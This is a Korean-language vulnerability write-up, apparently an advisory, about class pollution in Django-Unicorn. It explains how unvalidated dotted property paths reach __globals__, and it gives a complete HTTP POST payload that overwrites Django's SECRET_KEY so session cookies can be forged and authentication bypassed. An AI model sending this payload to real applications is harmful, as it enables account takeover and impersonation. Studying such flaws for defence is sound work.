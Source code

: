 이로 인해 Python 런타임 상태가 공격자가 의도한 대로 변경될 수 있으며,

이 취약점을 악용하는 방법은 **최소 5가지 이상** 공개되어 있습니다.

대부분의 Django-Unicorn 기반 애플리케이션에서 이 취약점은 다음과 같은 공격으로 이어질 수 있습니다:

- 🛑 **XSS (Cross-Site Scripting)**
- 🧨 **DoS (서비스 거부 공격)**
- 🔓 **인증 우회 (Authentication Bypass)**

### **공격 시나리오: 인증 우회**

공격자는 `SECRET_KEY`에 접근해 이를 임의의 값으로 덮어쓸 수 있습니다.

```jsx
POST /unicorn/message/todo HTTP/1.1

{
  "id": 123,
  "actionQueue": [
    {
      "type": "syncInput",
      "payload": {
        **"name": "__init__.__globals__.sys.modules.django.template.backends.django.settings.SECRET_KEY",**
        "value": "test"
      }
    }
  ],
  "data": {
    "task": "",
    "tasks": []
  },
  "epoch": "123",
  "checksum": "XXX"
}
```

`set_property_value` 함수는 **점(`.`)으로 구분된 경로를 따라 객체 내부 속성에 접근**합니다.

하지만 경로에 대한 검증이 부족하기 때문에, 공격자는 `__globals__`와 같은 **Magic 속성**에도 접근할 수 있게 됩니다.

예를 들어, 공격자는 `property_name`에 다음과 같은 경로를 전달할 수 있습니다:

**__init__.__globals__.sys.modules.django.template.backends.django.settings.SECRET_KEY**

여기서 `__globals__`는 Python 함수 객체가 참조하는 **전역 네임스페이스**로,

이를 통해 `sys.modules`에 접근하고,

`django.template.backends.django.settings.SECRET_KEY`까지 도달할 수 있습니다.

결과적으로 공격자는 Django 애플리케이션의 **비밀 키(`SECRET_KEY`)를 런타임에서 변조**할 수 있으며,

이 키를 기반으로 **위조된 세션 쿠키를 생성**해

다른 사용자로 위장하여 **인증을 우회**할 수 있게 됩니다.
